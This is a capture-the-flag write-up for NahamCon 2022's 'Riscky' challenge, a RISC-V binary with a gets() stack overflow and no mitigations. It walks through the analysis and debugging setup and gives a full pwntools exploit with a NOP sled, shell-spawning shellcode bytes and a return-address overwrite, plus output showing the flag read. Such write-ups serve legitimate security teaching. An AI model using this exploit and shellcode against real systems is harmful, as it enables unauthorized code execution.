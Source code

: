 # NahamCon CTF 2022

## Riscky

> Don't segfault or it's game over!
>
> Author: @M_alpha#3534
>
> [`riscky.zip`](riscky.zip)

Tags: _pwn_ _riscv_ _riscv64_ _shellcode_ 


## Summary

Unconstrained `riscv` binary with `gets`.

Newskool _gets_ oldskooled.


## Analysis

### Checksec

```
    Arch:     em_riscv-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x10000)
    RWX:      Has RWX segments
```

No mitigations in place, choose your own adventure.


### Ghidra Decompile

```c
undefined8 main(void)

{
  char acStack520 [500];
  undefined4 local_14;
  
  local_14 = 0;
  setbuf((FILE *)stdin,(char *)0x0);
  setbuf((FILE *)stdout,(char *)0x0);
  signal(0xb,failed);
  puts("Don\'t miss!");
  printf("> ");
  gets(acStack520);
  return 0;
}
```

Yeah, `gets`--there's your problem.  Also no mitigations or ASLR.

If this were `x86_64`, I'd tell you that `acStack520` is `520` bytes from the end of the stackframe, IOW, write out `520` bytes of garbage then your ROP chain.  However RISC-V does not `push` a return address to the stack on `call`.  RISC-V does not _push_ or _pop_.  RISC-V simply allocates a stackframe on `call` and the return address is _in_ the stackframe.  Just remember to subtract 8 (if 64bit), IOW, write out `520 - 8` bytes of garbage and then your ROP chain.


### Let's go shopping!

We're going to need some tools to pull off this exploit:

```bash
dpkg --add-architecture riscv64
apt-get update
apt-get -qy install build-essential gdb-multiarch
apt-get -qy install binutils-riscv64-linux-gnu binutils-riscv64-unknown-elf
apt-get -qy install qemu-system e2tools qemu-user qemu-user-binfmt "binfmt*"
apt-get -qy install qemu-user-static
```

> The above may not be 100% accurate, I already have a container I use for pwn, so I just pulled out the commands from my `Dockerfile` I thought you'd need.

We'll need Docker as well.  I'm using Docker for MacOS.

We'll also need some shellcode; this was the first Google hit: [http://shell-storm.org/shellcode/files/shellcode-908.php](http://shell-storm.org/shellcode/files/shellcode-908.php).


### Prep container for remote debugging

After extracting `riscky.zip` edit `start.sh` and add `-g 9000`, e.g.:

```bash
#!/bin/sh

su challenge -c /bin/sh -c '/usr/bin/qemu-riscv64 -g 9000 /riscky'
```

Then create a `flag.txt` file, e.g.:

```bash
echo flag{flag} >flag.txt
```

Finally, build and run the container:

```bash
docker build --no-cache -t riscky .
docker run --rm -d --name riscky -p 9000:9000 -p 9999:9999 riscky
```


### Locate the `gets` buffer

To start `riscky` executing, just `nc localhost 9999`, then from `gdb` in another terminal type:

```
file riscky
set sysroot /usr/riscv64-linux-gnu/
target remote gateway.docker.internal:9000
```

> `gateway.docker.internal` is a MacOS Docker thing, if you're on Linux, it's probably just `localhost`.

If all went well, and if you're using something like GEF, you should see something like this:

![](gdb.png)

Next disassemble `main` and set a breakpoint _after_ `gets`, then continue:

```
gef➤  disas main
Dump of assembler code for function main:
   0x0000000000010620 <+0>:	addi	sp,sp,-528
   0x0000000000010624 <+4>:	sd	ra,520(sp)
   0x0000000000010628 <+8>:	sd	s0,512(sp)
   0x000000000001062c <+12>:	addi	s0,sp,528
   0x000000000001062e <+14>:	li	a1,0
   0x0000000000010630 <+16>:	sd	a1,-528(s0)
   0x0000000000010634 <+20>:	sw	a1,-20(s0)
   0x0000000000010638 <+24>:	auipc	a0,0x60
   0x000000000001063c <+28>:	ld	a0,568(a0) # 0x70870
   0x0000000000010640 <+32>:	ld	a0,0(a0)
   0x0000000000010642 <+34>:	jal	ra,0x1b126 <setbuf>
   0x0000000000010646 <+38>:	ld	a1,-528(s0)
   0x000000000001064a <+42>:	auipc	a0,0x60
   0x000000000001064e <+46>:	ld	a0,478(a0) # 0x70828
   0x0000000000010652 <+50>:	ld	a0,0(a0)
   0x0000000000010654 <+52>:	jal	ra,0x1b126 <setbuf>
   0x0000000000010658 <+56>:	auipc	a1,0x0
   0x000000000001065c <+60>:	addi	a1,a1,-74 # 0x1060e <failed>
   0x0000000000010660 <+64>:	li	a0,11
   0x0000000000010662 <+66>:	jal	ra,0x14268 <ssignal>
   0x0000000000010666 <+70>:	auipc	a0,0x3c
   0x000000000001066a <+74>:	addi	a0,a0,138 # 0x4c6f0
   0x000000000001066e <+78>:	jal	ra,0x19d00 <puts>
   0x0000000000010672 <+82>:	auipc	a0,0x3c
   0x0000000000010676 <+86>:	addi	a0,a0,138 # 0x4c6fc
   0x000000000001067a <+90>:	jal	ra,0x1513e <printf>
   0x000000000001067e <+94>:	addi	a0,s0,-520
   0x0000000000010682 <+98>:	jal	ra,0x19ab2 <gets>
   0x0000000000010686 <+102>:	ld	a0,-528(s0)
   0x000000000001068a <+106>:	ld	s0,512(sp)
   0x000000000001068e <+110>:	ld	ra,520(sp)
   0x0000000000010692 <+114>:	addi	sp,sp,528
   0x0000000000010696 <+118>:	ret
End of assembler dump.
gef➤  b *main+102
Breakpoint 1 at 0x10686
gef➤  c
Continuing.
```

From your `nc localhost 9999` session input `AAAA`, `gets` should return and execution should halt; get the location of `a0` (buf), and we're done:

```
gef➤  i r a0
a0             0x40008009b8	0x40008009b8
gef➤  x/1s 0x40008009b8
0x40008009b8:	"AAAA"
```


## Exploit

```python
#!/usr/bin/env python3

from pwn import *

if args.REMOTE:
    p = remote('challenge.nahamcon.com', 30533)
    buf = 0x00000040008009b8
else:
    if args.D:
        p = process('qemu-riscv64 -g 9000 -L /usr/riscv64-linux-gnu riscky'.split())
    else:
        p = process('qemu-riscv64 riscky'.split())
    buf = 0x0000004000800188

context.arch = 'riscv'
context.bits = 64

# http://shell-storm.org/shellcode/files/shellcode-908.php
shellcode = b'\x01\x11\x06\xec\x22\xe8\x13\x04\x21\x02\xb7\x67\x69\x6e\x93\x87\xf7\x22\x23\x30\xf4\xfe\xb7\x77\x68\x10\x33\x48\x08\x01\x05\x08\x72\x08\xb3\x87\x07\x41\x93\x87\xf7\x32\x23\x32\xf4\xfe\x93\x07\x04\xfe\x01\x46\x81\x45\x3e\x85\x93\x08\xd0\x0d\x93\x06\x30\x07\x23\x0e\xd1\xee\x93\x06\xe1\xef\x67\x80\xe6\xff'

payload  = b''
payload += ((520 - 8 - len(shellcode)) // len(asm('nop'))) * asm('nop')
payload += shellcode
payload += p64(buf)

p.sendlineafter(b'> ', payload)
p.interactive()
```

This is as oldskool as it _gets_, no ASLR, executable stack, a pretty good guess at the stack/buf location, and a nopsled followed by some script kiddie shellcode we got off the Internet.

Now you know RISC-V.

> pwntools RISC-V support is, well, not 100%, e.g. `binary = context.binary = ELF('./riscky')` didn't work, so I had to manually set in code `context.arch` and `context.bits` for `asm`.  The other option was to use `p32(0x13)` for `nop`.
>
> NOTE: `python3 -m pip install pwntools==4.9.0b0`

Output:

```bash
# ./exploit.py REMOTE=1
[+] Opening connection to challenge.nahamcon.com on port 31603: Done
[!] Could not find system include headers for riscv-linux
[*] Switching to interactive mode
$ cat flag.txt
flag{834e1b43c9cdfab13d9352fc949cec7b}
```
